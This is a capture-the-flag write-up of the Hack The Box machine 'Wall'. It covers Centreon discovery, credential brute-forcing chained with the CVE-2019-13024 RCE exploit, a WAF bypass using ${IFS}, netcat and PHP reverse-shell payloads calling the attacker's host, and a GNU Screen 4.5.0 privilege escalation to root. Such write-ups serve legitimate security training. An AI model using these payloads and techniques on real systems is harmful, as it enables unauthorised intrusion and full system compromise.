

Wall is a Linux machine rated Medium on HTB.

## Information Gathering and Vulnerability Identification

### Port Scan

`nmap -sC -sV -oA initial 10.10.10.157`

```
Nmap scan report for 10.10.10.157
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### HTTP Recon

The web server shows the default Apache2 page.


#### Dirbuster

Busting yielded some folders and php pages.


The most interesting page is **monitoring/**. It's protected by HTTP authentication.



Brute forcing the HTTP basic authentication found no valid credentials.

####  Different HTTP Methods - GET versus POST

Our browser sends a GET request by default. Let's try a **POST request** with curl.

```
root@kali:~/htb/wall# curl -X POST http://10.10.10.157/monitoring/
<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```

Odd, but it seems like there's a redirection going on here. Let's follow the breadcrumb to **/centreon**.


#### Centreon

Centreon is a server monitoring software with [numerous documented vulnerabilities](https://www.cvedetails.com/vulnerability-list/vendor_id-7565/Centreon.html).

**Searchsploit** shows a number of exploits. The list below retains those that might work for Centreon version 19.04.0.
```
root@kali:~/htb/remote# searchsploit centreon
------------------------------------------------------------------------------------------------------ ----------------------------------------
 Exploit Title                                                                                        |  Path
                                                                                                      | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------------------------ ----------------------------------------
Centreon 19.04  - Remote Code Execution                                                               | exploits/php/webapps/47069.py
Centreon 19.04 - Authenticated Remote Code Execution (Metasploit)                                     | exploits/php/webapps/47948.rb
Centreon 19.10.5 - 'Pollers' Remote Command Execution                                                 | exploits/php/webapps/47977.txt
Centreon 19.10.5 - 'Pollers' Remote Command Execution (Metasploit)                                    | exploits/php/webapps/47994.rb
Centreon 19.10.5 - 'centreontrapd' Remote Command Execution                                           | exploits/php/webapps/47978.txt
Centreon 19.10.5 - Database Credentials Disclosure                                                    | exploits/php/webapps/47968.txt
Centreon 19.10.5 - Remote Command Execution                                                           | exploits/php/webapps/47969.txt
```

Without any existing credentials, a good first step is to try the default credentials, if any.

According to the [documentation here](https://documentation.centreon.com/docs/centreon/en/19.04/installation/from_VM.html), the default login is **admin** with the password **centreon**.

However, as shown in the screenshot above, the credentials are rejected.

## Attacks and Exploits

This RCE vulnerability (CVE-2019-13024) looks promising, especially when the maker of the box has a writeup on it.

###  Exploiting CVE-2019-13024

This vulnerability allows the execution of arbitrary system commands.

For more details, refer to:

* [National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2019-13024)
* [Write-up for CVE-2019-13024 by Askar](https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/)

Instead of writing an exploit from scratch, let's modify the [exploit code from Askar](https://gist.github.com/mhaskar/c4255f6cf45b19b8a852c780f50576da).

The exploit (as it is) does the following:

* Grabs the CSRF token from the login page
* Tries to log in with given username and password (together with the CSRF token)
* Given a successful login, grabs a CSRF token from the Poller page
* Modify the value of *Monitoring Engine Binary* to a command we want to execute
* Call *generateFiles.php* to execute the command

#### Modifying The Exploit To Chain Weak Credentials With RCE

Our first obstacle is that we need a valid set of credentials.

Since we have not harvested any credentials, we will need to brute force our way in. (Let's hope the credentials are weak.)

This is my approach:

* Modify the exploit into a function
* Calls the function repeatedly with a different password (brute force)
* To verify the vulnerability, we'll use a simple `id` command.

(If you want to write your own script for credentials bruteforcing, using the Centreon API is easier.)

After modifying the exploit into a function `exploit()`, we call it repeatedly with different passwords.

This is a snippet from my final exploit script.

```
passwd_file = sys.argv[1]

file_example = open(passwd_file, "r")

for line in file_example:
	exploit("http://10.10.10.157/centreon", "admin", line.strip())
```

Let's run the script against a wordlist (10k-most-common.txt).

```
Trying username: admin and password: password1
[+] Retrieving CSRF token to submit the login form
[+] Login token is : fe4fa64b86d37013a3865d49389077bf
[+] Logged In Sucssfully
[+] Retrieving Poller token
[+] Poller token is : 7ef25405856c57b6abd4293e11aa6d03
[+] Injecting Done, triggering the payload
200
<?xml version="1.0" encoding="UTF-8"?>
<response><debug><![CDATA[<a href='#' onClick="toggleDebug('1'); return false;"><label id='togglerp_1' style='display: none'>[ + ]</label><label id='togglerm_1'>[ - ]</label></a> <b><font color='red'>Central</font></b><br/><div style='display: block;' id='debug_1'>uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)<br>sh: 1: -v: not found<br><br></div><br/>]]></debug><status><![CDATA[<b><font color='red'>NOK</font></b>]]></status><statuscode><![CDATA[1]]></statuscode><errorsPhp/></response>

Payload: id;
```

We found the password `password1`. And the code execution worked. We find out that that the user id is `www-data`.

Now that we have verified that the vulnerability exists, let's try to get a shell.

```
[+] Injecting Done, triggering the payload
403
<?xml version="1.0" encoding="UTF-8"?>
<response><debug><![CDATA[<a href='#' onClick="toggleDebug('1'); return false;"><label id='togglerp_1' style='display: none'>[ + ]</label><label id='togglerm_1'>[ - ]</label></a> <b><font color='red'>Central</font></b><br/><div style='display: block;' id='debug_1'>uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)<br>sh: 1: -v: not found<br><br></div><br/>]]></debug><status><![CDATA[<b><font color='red'>NOK</font></b>]]></status><statuscode><![CDATA[1]]></statuscode><errorsPhp/></response>

Payload: nc -e /bin/bash 10.10.10.10 8888;

```
Our nc reverse shell payload received a 403 Forbidden response, instead of a 200 OK like before.

This suggests that a web appplication firewall (WAF). Let's verify using an nmap script.

```
root@kali:~/htb/wall# nmap -p80 --script http-waf-detect --script-args="http-waf-detect.uri=/centreon" 10.10.10.157
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-20 14:28 +08
Nmap scan report for 10.10.10.157
Host is up (0.22s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-waf-detect: IDS/IPS/WAF detected:
|_10.10.10.157:80/centreon?p4yl04d3=<script>alert(document.cookie)</script>
```

Yup, there is a WAF in place.

#### Evading the WAF

Comparing `id` and `nc -e /bin/bash 10.10.10.10 8888`, the WAF might be blocking either:

* The command itself (nc which is possible as it's often used to create a backdoor) or;
* Any of the special characters (-/. or space)

To narrow down the WAF blacklist, let's try a simpler command `echo test;` which got blocked as well. The echo command is unlikely to be blocked, so let's assume the problem is with the space character.

On UNIX systems, `${IFS}` is a special shell variable called internal field separator. We can use it to replace a space character. (More information on IFS [here](https://dwheeler.com/essays/fixing-unix-linux-filenames.html#ifs), and a cheatsheet mentioning its use for RCE [here](https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/os-cmd-execution).)

After replacing the space with ${IFS}, the payload got through the WAF and got executed.

```
[+] Injecting Done, triggering the payload
200
<?xml version="1.0" encoding="UTF-8"?>
<response><debug><![CDATA[<a href='#' onClick="toggleDebug('1'); return false;"><label id='togglerp_1' style='display: none'>[ + ]</label><label id='togglerm_1'>[ - ]</label></a> <b><font color='red'>Central</font></b><br/><div style='display: block;' id='debug_1'>test<br>sh: 1: -v: not found<br><br></div><br/>]]></debug><status><![CDATA[<b><font color='red'>NOK</font></b>]]></status><statuscode><![CDATA[1]]></statuscode><errorsPhp/></response>

Payload:echo${IFS}test;
```

We know now that we can at least execute simple commands with spaces as long as we replace them with ${IFS}.

Without further testing to gather more information on the WAF blacklist, using `wget` to download a our payload file onto the machine seems feasible.

Let's modify this php shell available in Kali with our IP and port, before serving it up on a web server.

`/usr/share/webshells/php/php-reverse-shell.php`

* My machine: `python -m SimpleHTTPServer`
* Wall: `wget http://10.10.10.10:8000 php-reverse-shell.php` - using the same exploit script
* My machine: `curl http://10.10.10.157/centreon/php-reverse-shell.php`

We got our first shell.

```
root@kali:~/htb/wall# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.157] 58366
Linux Wall 4.15.0-54-generic #58-Ubuntu SMP Mon Jun 24 10:55:24 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:58:39 up 10:21,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## Privilege Escalation

Now let's run LinEnum to gather basic information about the system.

### SUID Exploit

LinEnum shows an interesting SUID - `/bin/screen-4.5.0`.

To look for SUIDs manually, you can run the command below.

```
$ find / -xdev -perm /4000 2>/dev/null
/bin/mount
/bin/ping
/bin/screen-4.5.0
/bin/fusermount
/bin/su
/bin/umount
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/eject/dmcrypt-get-device
```
Some googling reveals that GNU Screen 4.5.0 has a vulnerability that enables privilege escalation. We can mirror the exploit script with searchsploit.
```
root@kali:~/htb/wall# searchsploit -m exploits/linux/local/41154.sh
  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
File Type: Bourne-Again shell script, ASCII text executable, with CRLF line terminators

Copied to: /root/htb/wall/41154.sh
```
The file type states that it has CRLF line terminators (^M). So we'll need to deal with that for the exploit to work on a Linux machine.

[To do so](https://support.microfocus.com/kb/doc.php?id=7014821), use this command:

`perl -p -e 's/\r//g' exploit.sh > exploit-crlf-removed.sh`

* `-p` - loops by line the command that follows `-e`
* `\r` - carriage return (CR)
* `/g` - modifier for global matching

[Learn more about perl search and replace here.](https://perldoc.perl.org/perlrequick.html#Search-and-replace)

```
www-data@Wall:/tmp$ ./exploit-crlf-removed.sh
./exploit-crlf-removed.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function 'dropshell':
/tmp/libhax.c:7:5: warning: implicit declaration of function 'chmod'; did you mean 'chroot'? [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
     chroot
/tmp/rootshell.c: In function 'main':
/tmp/rootshell.c:3:5: warning: implicit declaration of function 'setuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:4:5: warning: implicit declaration of function 'setgid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:5:5: warning: implicit declaration of function 'seteuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
     setbuf
/tmp/rootshell.c:6:5: warning: implicit declaration of function 'setegid' [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function 'execvp' [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# whoami
whoami
root
```
We got root!

## Ending Thoughts

This Wall was my first box on HTB.

I wanted to start with an Easy box, but I was so unfamiliar with the platform that I didn't even realize it was rated Medium.

The need to change the HTTP method to POST was a little frustrating, but it does drive home the point of trying all ways to interact with any application you're facing.

This was my first encounter with a WAF. The process of getting the exploit to work was interesting as well. In my research I found a couple of good resources for learning about WAF:

* https://github.com/0xInfection/Awesome-WAF
* https://www.owasp.org/./66/OWASP_Stammtisch_Frankfurt_-_Web_Application_Firewall_Bypassing_-_how_to_defeat_the_blue_team_-_2015.10.29.pdf
